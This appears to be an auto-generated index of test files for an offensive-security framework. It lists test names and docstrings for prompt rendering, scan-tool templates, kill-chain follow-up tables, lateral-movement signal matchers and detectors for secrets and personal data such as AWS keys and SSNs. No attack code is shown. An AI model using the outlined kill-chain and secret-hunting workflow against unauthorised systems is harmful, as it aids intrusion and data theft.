- `test_repo_manifest_loads_with_valid_tiers` (line 42) `def test_repo_manifest_loads_with_valid_tiers()`
- `test_missing_manifest_returns_empty` (line 52) `def test_missing_manifest_returns_empty(tmp_path)`
- `test_malformed_manifest_is_ignored` (line 56) `def test_malformed_manifest_is_ignored(tmp_path)`
- `test_rate_and_average` (line 62) `def test_rate_and_average(tmp_path)`
- `test_rate_rejects_bad_input` (line 70) `def test_rate_rejects_bad_input(tmp_path)`
- `test_corrupt_store_reads_empty` (line 79) `def test_corrupt_store_reads_empty(tmp_path)`
- `test_format_rating` (line 85) `def test_format_rating()`
- `test_read_metadata_tier` (line 91) `def test_read_metadata_tier(tmp_path)`

#### `test_profiles.py`
**Path:** `tests/test_profiles.py`
**File Doc:** *Tests for runtime install profiles (``core.profiles``).  Covers profile resolution from ``LAZYOWN_PROFILE``, dependency-spec filtering per profile, the invalid-value contract, and lock-file consistency between ``requirements-light.txt`` and ``requirements.txt``.*

**Classes:**
- `_Spec` (line 26) `class _Spec`

**Functions:**
- `test_default_profile_is_full` (line 31) `def test_default_profile_is_full(monkeypatch)`
- `test_light_profile_selected` (line 37) `def test_light_profile_selected(monkeypatch)`
- `test_profile_value_is_case_insensitive` (line 43) `def test_profile_value_is_case_insensitive(monkeypatch)`
- `test_unknown_profile_raises` (line 48) `def test_unknown_profile_raises(monkeypatch)`
- `test_full_profile_keeps_every_spec` (line 54) `def test_full_profile_keeps_every_spec(monkeypatch)`
- `test_light_profile_skips_analytics_and_ai` (line 60) `def test_light_profile_skips_analytics_and_ai(monkeypatch)`
- `_pinned_names` (line 68) `def _pinned_names(path)`
- `test_light_lock_is_a_subset_of_full_lock` (line 79) `def test_light_lock_is_a_subset_of_full_lock()`
- `test_light_lock_drops_analytics_and_ai` (line 88) `def test_light_lock_drops_analytics_and_ai()`

**Methods:**
- `__init__` (line 27) `def __init__(self, import_name)`

#### `test_prompt_readline_markers.py`
**Path:** `tests/test_prompt_readline_markers.py`
**File Doc:** *Regression tests for readline marker handling in the Neon Box prompt.  Covers the ``^A``/``^B`` leak reported when the cmd2 prompt wrapped newlines in readline zero-width markers. Markers must fence ANSI escapes only, never newlines or printable text.*

**Functions:**
- `test_ansi_escape_gets_fenced` (line 25) `def test_ansi_escape_gets_fenced()` - *ANSI escapes are wrapped while printable text stays bare.*
- `test_newline_stays_bare` (line 35) `def test_newline_stays_bare()` - *Newlines are never wrapped in zero-width markers.*
- `test_mixed_prompt_fences_only_ansi` (line 43) `def test_mixed_prompt_fences_only_ansi()` - *Mixed content fences escapes and preserves line breaks verbatim.*
- `test_render_prompt_default_has_no_markers` (line 53) `def test_render_prompt_default_has_no_markers()` - *Default prompt is raw ANSI for prompt_toolkit, free of markers.*
- `test_render_prompt_readline_mode_fences_ansi_only` (line 62) `def test_render_prompt_readline_mode_fences_ansi_only()` - *Opt-in readline mode fences escapes and never wraps newlines.*
- `test_render_prompt_raw_has_no_markers` (line 70) `def test_render_prompt_raw_has_no_markers()` - *Display mode returns raw ANSI without any readline markers.*
- `test_strip_readline_markers_restores_raw` (line 79) `def test_strip_readline_markers_restores_raw()` - *Stripping markers from the readline prompt restores display text.*
- `test_stripped_prompt_matches_box_shape` (line 87) `def test_stripped_prompt_matches_box_shape()` - *Fully stripped prompt keeps the three-line Neon Box structure.*

#### `test_prompt_refresh.py`
**Path:** `tests/test_prompt_refresh.py`
**File Doc:** *Contract tests for live prompt refresh after a payload change.  The migrated CommandSets write ``self.custom_prompt`` and ``self.prompt`` expecting the shell to own them. The base class forwards unknown reads to the shell, but it did not forward writes, so ``assign rhost`` changed ``payload.json`` and left the Neon Box prompt stale. These tests pin the write forwarding and the ``refresh_prompt`` wiring.*

**Functions:**
- `_command_set_with_fake_shell` (line 22) `def _command_set_with_fake_shell()`
- `test_prompt_write_forwards_to_shell` (line 29) `def test_prompt_write_forwards_to_shell()` - *Assigning custom_prompt on a CommandSet updates the bound shell.*
- `test_prompt_read_after_forward` (line 37) `def test_prompt_read_after_forward()` - *Reading custom_prompt after forwarding returns the shell value.*
- `test_unrelated_write_stays_local` (line 44) `def test_unrelated_write_stays_local()` - *A non-prompt attribute is never forwarded to the shell.*
- `test_do_assign_calls_refresh_prompt` (line 52) `def test_do_assign_calls_refresh_prompt()` - *do_assign must refresh the prompt after a successful payload write.*
- `test_shell_defines_refresh_prompt` (line 59) `def test_shell_defines_refresh_prompt()` - *LazyOwnShell must own the refresh_prompt helper.*
- `test_render_prompt_includes_rhost` (line 65) `def test_render_prompt_includes_rhost()` - *The rendered prompt reflects the rhost passed in the payload.*
- `test_no_bracket_replace_hack` (line 71) `def test_no_bracket_replace_hack()` - *Prompt builders must not inject text after every closing bracket.*
- `test_rhost_commands_use_refresh_prompt` (line 78) `def test_rhost_commands_use_refresh_prompt()` - *do_rhost and do_rrhost must refresh through the shell helper.*

#### `test_pwntomate_tools.py`
**Path:** `tests/test_pwntomate_tools.py`
**File Doc:** *Regression guard for pwntomate tool templates (tools/*.tool).  Locks in the contract that broke in production: every ``{placeholder}`` used by a template must be substituted by ``pwntomate._build_substitutions``, gobuster templates must use valid subcommand syntax, and no rendered command may contain an empty URL host or a leftover placeholder. Mirrors pwntomate's own skip rules (empty domain, unresolved placeholder) so the test asserts exactly the set that would execute.*

**Functions:**
- `_load_tools` (line 47) `def _load_tools()` - *Load every tool template keyed by file stem.*
- `_render` (line 57) `def _render(template, domain, tunnel)` - *Render a template the way pwntomate does (minus credentials).*
- `_would_run` (line 83) `def _would_run(template, domain)` - *Mirror pwntomate's skip rules: empty domain / leftover placeholder.*
- `test_templates_are_valid_json_with_required_keys` (line 92) `def test_templates_are_valid_json_with_required_keys()` - *Every template carries toolname/command/trigger/active with sane types.*
- `test_placeholders_match_pwntomate_substitutions` (line 103) `def test_placeholders_match_pwntomate_substitutions()` - *No template may use a placeholder pwntomate cannot substitute.*
- `test_rendered_commands_have_no_empty_host` (line 115) `def test_rendered_commands_have_no_empty_host()` - *No executable command may contain an empty URL host (https:/// bug).*
- `test_gobuster_templates_use_valid_syntax` (line 129) `def test_gobuster_templates_use_valid_syntax()` - *gobuster dns takes --domain (never -r URL); dir takes -u with a host.*
- `test_no_hardcoded_always_ssl_flag` (line 141) `def test_no_hardcoded_always_ssl_flag()` - *The -ssl flag must be conditional ({ssl_flag}), never hardcoded.*

#### `test_rea_mcp.py`
**Path:** `tests/test_rea_mcp.py`
**File Doc:** *Tests for the lazyown_rea MCP tool (REA reverse-engineering skill).  Covers tool registration, argument validation and argv construction for skills.lazyown_mcp._h_rea without requiring Hopper, Ghidra or network.*

**Classes:**
- `Tool` (line 35) `class Tool`
- `TextContent` (line 39) `class TextContent`
- `Server` (line 46) `class Server`

**Functions:**
- `_stub_mcp_sdk` (line 21) `def _stub_mcp_sdk()` - *Provide minimal mcp SDK stubs when the pinned SDK cannot load the server.

The repository pins mcp==2.1.1 whose Server lacks the list_tools/call_tool
decorators used by skills.lazyown_mcp. The stubs expose just enough API
for the module to import so handler logic stays testable.*
- `_call` (line 73) `def _call(arguments, monkeypatch)` - *Invoke the rea handler and parse its JSON envelope.*
- `test_list_tools_has_rea` (line 90) `def test_list_tools_has_rea()`
- `test_unknown_action_rejected` (line 99) `def test_unknown_action_rejected(monkeypatch)`
- `test_missing_binary` (line 105) `def test_missing_binary(monkeypatch)`
- `test_doctor_argv` (line 113) `def test_doctor_argv(monkeypatch)`
- `test_inspect_artifact_argv` (line 119) `def test_inspect_artifact_argv(tmp_path, monkeypatch)`
- `test_large_output_survives_compaction` (line 132) `def test_large_output_survives_compaction(tmp_path, monkeypatch)`
- `test_analyze_uses_explicit_target` (line 148) `def test_analyze_uses_explicit_target(tmp_path, monkeypatch)`
- `test_analyze_missing_target` (line 155) `def test_analyze_missing_target(monkeypatch)`
- `test_target_flag_injection_rejected` (line 168) `def test_target_flag_injection_rejected(monkeypatch)`
- `test_decompile_needs_valid_address` (line 174) `def test_decompile_needs_valid_address(tmp_path, monkeypatch)`
- `test_search_needs_query` (line 189) `def test_search_needs_query(tmp_path, monkeypatch)`
- `test_provider_flag_appended` (line 201) `def test_provider_flag_appended(tmp_path, monkeypatch)`
- `_fake_run` (line 78) `def _fake_run(argv)`
- `_fake_run` (line 138) `def _fake_run(argv)`

**Methods:**
- `__init__` (line 36) `def __init__(self)`
- `__init__` (line 40) `def __init__(self)`
- `__init__` (line 47) `def __init__(self)`
- `list_tools` (line 50) `def list_tools(self)`
- `call_tool` (line 53) `def call_tool(self)`

#### `test_reactive_engine_semantic.py`
**Path:** `tests/test_reactive_engine_semantic.py`
**File Doc:** *Tests for the semantic context advisor in ``modules/reactive_engine.py``.  The advisor must:  * return an empty list when no RAG backend is available * return an empty list when the operator disabled the feature via ``payload.json[reactive_semantic_enabled]`` * surface ``suggest_next`` decisions with priority :data:`SEMANTIC_PRIORITY` when the RAG yields useful hits * never overrule the existing regex-based decisions*

**Classes:**
- `_FakeRAG` (line 33) `class _FakeRAG` - *Stand-in for :class:`modules.session_rag.SessionRAG`.*
- `_ExplodingRAG` (line 189) `class _ExplodingRAG`

**Functions:**
- `test_returns_empty_when_rag_unavailable` (line 46) `def test_returns_empty_when_rag_unavailable(monkeypatch)` - *No RAG instance means no semantic hints, never a crash.*
- `test_returns_empty_when_disabled_via_payload` (line 55) `def test_returns_empty_when_disabled_via_payload()` - *Honour the payload gate exactly once per call.*
- `test_emits_priority_five_suggestion` (line 75) `def test_emits_priority_five_suggestion()` - *A high-score hit becomes a ``suggest_next`` decision.*
- `test_skips_low_score_hits` (line 99) `def test_skips_low_score_hits()` - *Hits below :data:`SEMANTIC_MIN_SCORE` are dropped.*
- `test_skips_same_command_and_dedupes` (line 115) `def test_skips_same_command_and_dedupes()` - *Hits pointing back at the current command and duplicates are dropped.*
- `test_skips_hits_without_command_prefix` (line 142) `def test_skips_hits_without_command_prefix()` - *Sources that do not match the ``command_<verb>output`` pattern are dropped.*
- `test_engine_uses_semantic_advisor_when_supplied` (line 158) `def test_engine_uses_semantic_advisor_when_supplied()` - *The engine wires the advisor and includes its decisions.*
- `test_advisor_swallows_rag_query_errors` (line 186) `def test_advisor_swallows_rag_query_errors()` - *A noisy RAG backend never propagates exceptions to the caller.*

**Methods:**
- `__init__` (line 36) `def __init__(self, hits, ready)`
- `query` (line 41) `def query(self, text, n)`
- `query` (line 192) `def query(self, text, n)`

#### `test_reactive_hints.py`
**Path:** `tests/test_reactive_hints.py`
**File Doc:** *Tests for cli/reactive_hints.py.  Uses a synthetic GraphAdvisor double so the test suite runs without a real graphify graph on disk. The double is injected via duck-typing — the module calls only ``advisor.suggest_next(recent_commands, limit)`` so a minimal stub suffices.*

**Classes:**
- `_FakeAdvisor` (line 29) `class _FakeAdvisor` - *Minimal advisor double used in tests.*
- `TestFirstToken` (line 57) `class TestFirstToken`
- `TestTruncate` (line 71) `class TestTruncate`
- `TestExtractLabels` (line 88) `class TestExtractLabels`
- `TestRenderInlineHints` (line 111) `class TestRenderInlineHints`

**Functions:**
- `advisor_with_three_hints` (line 42) `def advisor_with_three_hints()`
- `empty_advisor` (line 53) `def empty_advisor()`

**Methods:**
- `__init__` (line 32) `def __init__(self, suggestions)`
- `suggest_next` (line 36) `def suggest_next(self, recent_commands, limit)`
- `test_extracts_first_word` (line 58) `def test_extracts_first_word(self)`
- `test_single_word` (line 61) `def test_single_word(self)`
- `test_empty_string` (line 64) `def test_empty_string(self)`
- `test_whitespace_only` (line 67) `def test_whitespace_only(self)`
- `test_short_string_unchanged` (line 72) `def test_short_string_unchanged(self)`
- `test_exact_length_unchanged` (line 75) `def test_exact_length_unchanged(self)`
- `test_long_string_truncated` (line 78) `def test_long_string_truncated(self)`
- `test_truncation_preserves_start` (line 83) `def test_truncation_preserves_start(self)`
- `test_picks_label_over_id` (line 89) `def test_picks_label_over_id(self)`
- `test_falls_back_to_id_when_no_label` (line 93) `def test_falls_back_to_id_when_no_label(self)`
- `test_skips_empty_entries` (line 97) `def test_skips_empty_entries(self)`
- `test_respects_limit` (line 101) `def test_respects_limit(self)`
- `test_truncates_long_labels` (line 105) `def test_truncates_long_labels(self)`
- `test_disabled_flag_skips_render` (line 112) `def test_disabled_flag_skips_render(self, advisor_with_three_hints)`
- `test_skip_command_skips_render` (line 117) `def test_skip_command_skips_render(self, advisor_with_three_hints)`
- `test_empty_command_skips_render` (line 122) `def test_empty_command_skips_render(self, advisor_with_three_hints)`
- `test_empty_suggestions_skips_render` (line 127) `def test_empty_suggestions_skips_render(self, empty_advisor)`
- `test_normal_command_renders_hint` (line 132) `def test_normal_command_renders_hint(self, advisor_with_three_hints)`
- `test_advisor_called_with_correct_command` (line 137) `def test_advisor_called_with_correct_command(self, advisor_with_three_hints)`
- `test_exception_in_advisor_does_not_propagate` (line 142) `def test_exception_in_advisor_does_not_propagate(self)`
- `test_all_skip_commands_are_skipped` (line 149) `def test_all_skip_commands_are_skipped(self, advisor_with_three_hints)`
- `test_limit_is_passed_to_advisor` (line 155) `def test_limit_is_passed_to_advisor(self, advisor_with_three_hints)`

#### `test_reactive_hints_expanded.py`
**Path:** `tests/test_reactive_hints_expanded.py`
**File Doc:** *Tests for cli.reactive_hints — expanded kill-chain tables.  Covers: - New commands in _KILL_CHAIN_NEXT (auto_pwn, chain, hunt, nuclei, yara, etc.) - New commands in _PHASE_PRIORITY - New session tips and protips - Protip trigger functions*

**Classes:**
- `TestKillChainNextExpanded` (line 13) `class TestKillChainNextExpanded`
- `TestPhasePriorityExpanded` (line 71) `class TestPhasePriorityExpanded`
- `TestProtipsExpanded` (line 107) `class TestProtipsExpanded`
- `TestProtipTriggers` (line 161) `class TestProtipTriggers`

**Methods:**
- `test_auto_pwn_in_lazynmap_followups` (line 14) `def test_auto_pwn_in_lazynmap_followups(self)`
- `test_auto_pwn_has_followups` (line 21) `def test_auto_pwn_has_followups(self)`
- `test_chain_has_followups` (line 28) `def test_chain_has_followups(self)`
- `test_hunt_has_followups` (line 34) `def test_hunt_has_followups(self)`
- `test_nuclei_has_followups` (line 40) `def test_nuclei_has_followups(self)`
- `test_yara_scan_has_followups` (line 46) `def test_yara_scan_has_followups(self)`
- `test_lazynmap_suggests_nuclei` (line 52) `def test_lazynmap_suggests_nuclei(self)`
- `test_campaign_has_followups` (line 58) `def test_campaign_has_followups(self)`
- `test_collab_has_followups` (line 64) `def test_collab_has_followups(self)`
- `test_exploit_includes_automation` (line 72) `def test_exploit_includes_automation(self)`
- `test_enum_includes_nuclei` (line 80) `def test_enum_includes_nuclei(self)`
- `test_postexp_includes_security` (line 86) `def test_postexp_includes_security(self)`
- `test_lateral_includes_collab` (line 93) `def test_lateral_includes_collab(self)`
- `test_persist_phase_exists` (line 99) `def test_persist_phase_exists(self)`
- `test_tips_include_automation` (line 108) `def test_tips_include_automation(self)`
- `test_tips_include_security` (line 120) `def test_tips_include_security(self)`
- `test_tips_include_collab` (line 130) `def test_tips_include_collab(self)`
- `test_tips_include_discovery` (line 141) `def test_tips_include_discovery(self)`
- `test_session_tips_expanded` (line 149) `def test_session_tips_expanded(self)`
- `test_os_linux_detection` (line 162) `def test_os_linux_detection(self)`
- `test_os_windows_detection` (line 169) `def test_os_windows_detection(self)`
- `test_after_trigger` (line 175) `def test_after_trigger(self)`
- `test_phase_in_trigger` (line 181) `def test_phase_in_trigger(self)`

#### `test_reactive_lateral_data.py`
**Path:** `tests/test_reactive_lateral_data.py`
**File Doc:** *Tests for new reactive engine matchers.*

**Classes:**
- `TestLateralOpportunityMatcher` (line 12) `class TestLateralOpportunityMatcher`
- `TestDataOfInterestMatcher` (line 61) `class TestDataOfInterestMatcher`
- `TestReactiveEngineIntegration` (line 119) `class TestReactiveEngineIntegration`

**Methods:**
- `test_kerberos_ticket` (line 13) `def test_kerberos_ticket(self)`
- `test_rdp_session` (line 19) `def test_rdp_session(self)`
- `test_smb_admin_share` (line 24) `def test_smb_admin_share(self)`
- `test_winrm_access` (line 29) `def test_winrm_access(self)`
- `test_ssh_key` (line 34) `def test_ssh_key(self)`
- `test_wmi_access` (line 39) `def test_wmi_access(self)`
- `test_domain_admin` (line 44) `def test_domain_admin(self)`
- `test_no_match` (line 49) `def test_no_match(self)`
- `test_confidence` (line 54) `def test_confidence(self)`
- `test_pii_email` (line 62) `def test_pii_email(self)`
- `test_pii_ssn` (line 67) `def test_pii_ssn(self)`
- `test_pii_credit_card` (line 72) `def test_pii_credit_card(self)`
- `test_secret_api_key` (line 77) `def test_secret_api_key(self)`
- `test_secret_aws_key` (line 82) `def test_secret_aws_key(self)`
- `test_secret_private_key` (line 87) `def test_secret_private_key(self)`
- `test_file_pattern_env` (line 92) `def test_file_pattern_env(self)`
- `test_file_pattern_config` (line 97) `def test_file_pattern_config(self)`
- `test_no_match` (line 102) `def test_no_match(self)`
- `test_confidence_levels` (line 107) `def test_confidence_levels(self)`
- `_make_engine` (line 120) `def _make_engine(self, matchers)` - *Create a ReactiveEngine with mocked advisors to avoid ChromaDB loading.*
- `test_lateral_signals_produce_decisions` (line 132) `def test_lateral_signals_produce_decisions(self)`
- `test_data_signals_produce_decisions` (line 146) `def test_data_signals_produce_decisions(self)`
- `test_decisions_sorted_by_priority` (line 161) `def test_decisions_sorted_by_priority(self)`

#### `test_reasoning_stream.py`
**Path:** `tests/test_reasoning_stream.py`
**File Doc:** *Tests for cli/reasoning_stream.py.  The suite drives the parser with synthetic JSONL fixtures so it runs deterministically without a live autonomous daemon. It pins the event-type to icon/style mapping, reward extraction, malformed-line tolerance and the tail-window behaviour the dashboard relies on.*

**Functions:**
- `_write_events` (line 28) `def _write_events(path, events)`
- `test_read_raw_events_missing_file_returns_empty` (line 32) `def test_read_raw_events_missing_file_returns_empty(tmp_path)`
- `test_read_raw_events_skips_malformed_lines` (line 36) `def test_read_raw_events_skips_malformed_lines(tmp_path)`
- `test_read_raw_events_honours_limit_tail` (line 46) `def test_read_raw_events_honours_limit_tail(tmp_path)`
- `test_event_to_entry_step_start_uses_reason_and_source` (line 53) `def test_event_to_entry_step_start_uses_reason_and_source()`
- `test_event_to_entry_step_done_failure_flips_icon_and_style` (line 75) `def test_event_to_entry_step_done_failure_flips_icon_and_style()`
- `test_event_to_entry_extracts_reward` (line 85) `def test_event_to_entry_extracts_reward()`
- `test_event_to_entry_metrics_skip_renders_success_rate` (line 95) `def test_event_to_entry_metrics_skip_renders_success_rate()`
- `test_event_to_entry_unknown_type_falls_back` (line 105) `def test_event_to_entry_unknown_type_falls_back()`
- `test_event_to_entry_handles_non_dict_payload` (line 111) `def test_event_to_entry_handles_non_dict_payload()`
- `test_format_size_threshold` (line 117) `def test_format_size_threshold()`
- `test_truncate_adds_ellipsis` (line 122) `def test_truncate_adds_ellipsis()`
- `test_latest_reasoning_end_to_end` (line 127) `def test_latest_reasoning_end_to_end(tmp_path)`

#### `test_recommendation.py`
**Path:** `tests/test_recommendation.py`
**File Doc:** *Behaviour tests for the unified recommendation engine and its signals.  These tests pin the fusion contract before any consumer is rewired onto the engine: per-signal normalisation, category-prior boosting, cross-signal merge with provenance, deterministic ordering, standalone category surfacing, and graceful degradation when a signal raises.*

**Classes:**
- `_StubSignal` (line 46) `class _StubSignal`
- `_BoomSignal` (line 55) `class _BoomSignal`
- `TestFusionCore` (line 70) `class TestFusionCore`
- `TestAdapters` (line 158) `class TestAdapters`
- `TestContextAndFactory` (line 216) `class TestContextAndFactory`
- `_Advisor` (line 160) `class _Advisor`
- `_Policy` (line 168) `class _Policy`
- `_Item` (line 178) `class _Item`
- `_Plan` (line 185) `class _Plan`

**Functions:**
- `_ctx` (line 36) `def _ctx(limit, recent, phase)`
- `_engine` (line 62) `def _engine(signals, resolver, weights)`
- `_builder` (line 188) `def _builder(target, engine, payload)`

**Methods:**
- `__init__` (line 47) `def __init__(self, name, proposals)`
- `propose` (line 51) `def propose(self, ctx)`
- `propose` (line 58) `def propose(self, ctx)`
- `test_single_signal_normalises_to_peak` (line 71) `def test_single_signal_normalises_to_peak(self)`
- `test_cross_signal_merge_sums_and_records_provenance` (line 85) `def test_cross_signal_merge_sums_and_records_provenance(self)`
- `test_category_prior_boosts_matching_action` (line 98) `def test_category_prior_boosts_matching_action(self)`
- `test_uncovered_category_surfaces_as_recommendation` (line 115) `def test_uncovered_category_surfaces_as_recommendation(self)`
- `test_covered_category_not_duplicated_as_standalone` (line 123) `def test_covered_category_not_duplicated_as_standalone(self)`
- `test_deterministic_ordering_on_score_tie` (line 131) `def test_deterministic_ordering_on_score_tie(self)`
- `test_limit_is_honoured` (line 139) `def test_limit_is_honoured(self)`
- `test_failing_signal_is_isolated` (line 147) `def test_failing_signal_is_isolated(self)`
- `test_zero_weight_signal_contributes_nothing` (line 152) `def test_zero_weight_signal_contributes_nothing(self)`
- `test_graph_signal_extracts_label_and_score` (line 159) `def test_graph_signal_extracts_label_and_score(self)`
- `test_policy_signal_emits_categories` (line 167) `def test_policy_signal_emits_categories(self)`
- `test_recon_signal_maps_items_with_descending_weight` (line 177) `def test_recon_signal_maps_items_with_descending_weight(self)`
- `test_killchain_signal_uses_adjacency_then_phase` (line 196) `def test_killchain_signal_uses_adjacency_then_phase(self)`
- `test_killchain_signal_filters_already_run` (line 206) `def test_killchain_signal_filters_already_run(self)`
- `test_read_recent_commands_orders_and_windows` (line 217) `def test_read_recent_commands_orders_and_windows(self, tmp_path)`
- `test_read_recent_commands_missing_file` (line 226) `def test_read_recent_commands_missing_file(self, tmp_path)`
- `test_build_context_resolves_target_and_phase` (line 229) `def test_build_context_resolves_target_and_phase(self, tmp_path)`
- `test_build_default_engine_always_returns_engine` (line 234) `def test_build_default_engine_always_returns_engine(self, tmp_path)`
- `suggest_next` (line 161) `def suggest_next(self, recent_commands, limit)`
- `get_recommendations` (line 169) `def get_recommendations(self, target)`
- `__init__` (line 179) `def __init__(self, kind, name, reason)`

#### `test_recon_plan.py`
**Path:** `tests/test_recon_plan.py`
**File Doc:** *Spec coverage for :mod:`cli.recon_plan`.  The recon plan glues together :class:`cli.exploration.ExplorationEngine` outputs, the phase-aware ``cli/command_index.json`` map and the current ``payload.json`` mapping. Every test below isolates one boundary of that contract so failures map to a specific responsibility instead of the whole pipeline. Fixtures touch only ``tmp_path``.*

**Classes:**
- `BuildReconPlanContractSpec` (line 149) `class BuildReconPlanContractSpec(TestCase)` - *Spec 1 — :func:`build_recon_plan` honours the documented contract.*
- `RenderMarkdownSpec` (line 289) `class RenderMarkdownSpec(TestCase)` - *Spec 2 — :func:`render_markdown` produces deterministic output.*
- `WritePlanSpec` (line 338) `class WritePlanSpec(TestCase)` - *Spec 3 — :func:`write_plan` persists atomically with safe permissions.*
- `RenderRichSpec` (line 379) `class RenderRichSpec(TestCase)` - *Spec 4 — :func:`render_rich` works with any duck-typed console.*
- `_Recorder` (line 383) `class _Recorder`

**Functions:**
- `_seed_addon` (line 68) `def _seed_addon(addons_dir, name, os_value, triggers)`
- `_seed_tool` (line 90) `def _seed_tool(tools_dir, name, triggers, command, os_value)`
- `_seed_command_index` (line 110) `def _seed_command_index(path)`
- `_seed_engine` (line 130) `def _seed_engine(sessions, addons, tools, nmap_xml, history_rows, current_os)`

**Methods:**
- `setUp` (line 152) `def setUp(self)`
- `tearDown` (line 176) `def tearDown(self)`
- `_build` (line 179) `def _build(self, current_os, payload)`
- `test_plan_includes_addons_matching_open_service` (line 193) `def test_plan_includes_addons_matching_open_service(self)`
- `test_plan_filters_os_incompatible_addons_on_linux` (line 199) `def test_plan_filters_os_incompatible_addons_on_linux(self)`
- `test_plan_includes_tools_matching_open_service` (line 204) `def test_plan_includes_tools_matching_open_service(self)`
- `test_tool_preview_substitutes_payload_placeholders` (line 210) `def test_tool_preview_substitutes_payload_placeholders(self)`
- `test_plan_excludes_already_executed_addons` (line 216) `def test_plan_excludes_already_executed_addons(self)`
- `test_plan_includes_phase_priority_command_suggestions` (line 237) `def test_plan_includes_phase_priority_command_suggestions(self)`
- `test_plan_skips_command_layer_when_index_missing` (line 243) `def test_plan_skips_command_layer_when_index_missing(self)`
- `test_plan_uses_payload_target_when_argument_missing` (line 259) `def test_plan_uses_payload_target_when_argument_missing(self)`
- `test_empty_scan_returns_empty_plan` (line 273) `def test_empty_scan_returns_empty_plan(self)`
- `_plan_with_items` (line 292) `def _plan_with_items(self)`
- `test_markdown_starts_with_target_header` (line 311) `def test_markdown_starts_with_target_header(self)`
- `test_markdown_renders_services_table` (line 315) `def test_markdown_renders_services_table(self)`
- `test_markdown_renders_command_preview_block` (line 320) `def test_markdown_renders_command_preview_block(self)`
- `test_markdown_handles_empty_plan` (line 325) `def test_markdown_handles_empty_plan(self)`
- `_plan` (line 341) `def _plan(self, target)`
- `test_write_creates_expected_filename` (line 351) `def test_write_creates_expected_filename(self)`
- `test_write_sanitises_target_for_filename` (line 358) `def test_write_sanitises_target_for_filename(self)`
- `test_write_sets_restrictive_permissions` (line 364) `def test_write_sets_restrictive_permissions(self)`
- `test_write_overwrites_existing_plan` (line 370) `def test_write_overwrites_existing_plan(self)`
- `test_renders_one_line_per_item` (line 389) `def test_renders_one_line_per_item(self)`
- `test_renders_friendly_message_when_empty` (line 406) `def test_renders_friendly_message_when_empty(self)`
- `print` (line 386) `def print(self, line)`

#### `test_report_banners_endpoints.py`
**Path:** `tests/test_report_banners_endpoints.py`
**File Doc:** *Tests for /report and /banners endpoints error handling.  Validates that both endpoints handle: missing files, empty files, invalid JSON, missing dictionary keys, and malformed data.  Since lazyc2.py blocks importing the lazyc2 package (file vs directory package conflict), these tests validate the fixed logic via pure standalone functions that mirror the actual endpoint handlers.*

**Classes:**
- `TestLoadBanners` (line 125) `class TestLoadBanners` - *Tests for the fixed load_banners() logic.*
- `TestBannersHTML` (line 184) `class TestBannersHTML` - *Tests for the fixed banners HTML table generation.*
- `TestReportContext` (line 217) `class TestReportContext` - *Tests for the fixed /report data gathering logic.*
- `TestLoadJSONFileSafe` (line 341) `class TestLoadJSONFileSafe` - *Tests for the safe JSON file loader used by /report.*

**Functions:**
- `load_banners` (line 18) `def load_banners(path)` - *Mirrors the fixed load_banners() from lazyc2.py and storage.py.

Handles: FileNotFoundError, JSONDecodeError, dict format with 'banners' key,
and flat list format.*
- `load_json_file_safe` (line 38) `def load_json_file_safe(path)` - *Mirrors the fixed session data loading logic from /report endpoint.

Handles: FileNotFoundError, JSONDecodeError, empty files.*
- `build_report_context` (line 55) `def build_report_context(report_file, session_file, tools_dir)` - *Mirrors the fixed /report endpoint data-gathering logic.

Returns:
    dict with keys: report_data, tools, session_data.*
- `build_banners_html` (line 95) `def build_banners_html(banners)` - *Mirrors the fixed /banners endpoint HTML table generation logic.

Uses .get() for all banner keys to avoid KeyError on missing fields.*

**Methods:**
- `test_dict_format` (line 128) `def test_dict_format(self, tmp_path)`
- `test_empty_dict` (line 146) `def test_empty_dict(self, tmp_path)`
- `test_file_not_found` (line 153) `def test_file_not_found(self, tmp_path)`
- `test_invalid_json` (line 157) `def test_invalid_json(self, tmp_path)`
- `test_empty_file` (line 163) `def test_empty_file(self, tmp_path)`
- `test_flat_list_format` (line 169) `def test_flat_list_format(self, tmp_path)`
- `test_empty_banners` (line 187) `def test_empty_banners(self)`
- `test_missing_keys_does_not_crash` (line 191) `def test_missing_keys_does_not_crash(self)`
- `test_valid_data` (line 204) `def test_valid_data(self)`
- `test_valid_files` (line 220) `def test_valid_files(self, tmp_path)`
- `test_empty_session_file` (line 236) `def test_empty_session_file(self, tmp_path)`
- `test_invalid_json_session` (line 249) `def test_invalid_json_session(self, tmp_path)`
- `test_missing_session_file` (line 261) `def test_missing_session_file(self, tmp_path)`
- `test_missing_body_report` (line 271) `def test_missing_body_report(self, tmp_path)`
- `test_invalid_body_report_json` (line 281) `def test_invalid_body_report_json(self, tmp_path)`
- `test_session_data_as_list` (line 293) `def test_session_data_as_list(self, tmp_path)`
- `test_empty_session_list` (line 304) `def test_empty_session_list(self, tmp_path)`
- `test_missing_tools_dir` (line 316) `def test_missing_tools_dir(self, tmp_path)`
- `test_invalid_tool_file_does_not_crash` (line 326) `def test_invalid_tool_file_does_not_crash(self, tmp_path)`
- `test_valid_json` (line 344) `def test_valid_json(self, tmp_path)`
- `test_empty_file` (line 349) `def test_empty_file(self, tmp_path)`
- `test_file_not_found` (line 354) `def test_file_not_found(self, tmp_path)`
- `test_invalid_json` (line 357) `def test_invalid_json(self, tmp_path)`
- `test_list_json` (line 362) `def test_list_json(self, tmp_path)`

#### `test_require_guards.py`
**Path:** `tests/test_require_guards.py`
**File Doc:** *Single-call requirement guards for CommandSet methods.  SDD contract: ``require_rhost`` / ``require_lhost`` / ``require_lport`` / ``require_rport`` replace the ``params[...]`` + ``check_*`` two-liner with one fail-closed call. They return exactly what the underlying ``check_*`` returns for present values and ``False`` (with the checker's error message) instead of raising ``KeyError`` when the key is missing.*

**Classes:**
- `TestRequireGuards` (line 21) `class TestRequireGuards`

**Methods:**
- `test_present_valid_values_pass` (line 22) `def test_present_valid_values_pass(self, capsys)`
- `test_missing_keys_fail_closed_without_keyerror` (line 29) `def test_missing_keys_fail_closed_without_keyerror(self, capsys)`
- `test_invalid_values_rejected` (line 35) `def test_invalid_values_rejected(self, capsys)`
- `test_equivalent_to_checkers_on_present_values` (line 41) `def test_equivalent_to_checkers_on_present_values(self, capsys)`

#### `test_resource_script.py`
**Path:** `tests/test_resource_script.py`
**File Doc:** *Tests for modules/resource_script.py — ScriptContext and ResourceScriptEngine.*

**Classes:**
- `TestResourceScript` (line 10) `class TestResourceScript` - *Test suite for ScriptContext and ResourceScriptEngine.*

**Methods:**
- `_execute` (line 14) `def _execute(script)` - *Execute an inline script string, returning captured output.*
- `test_set_and_get` (line 25) `def test_set_and_get(self)` - *Set a variable, verify _resolve returns it.*
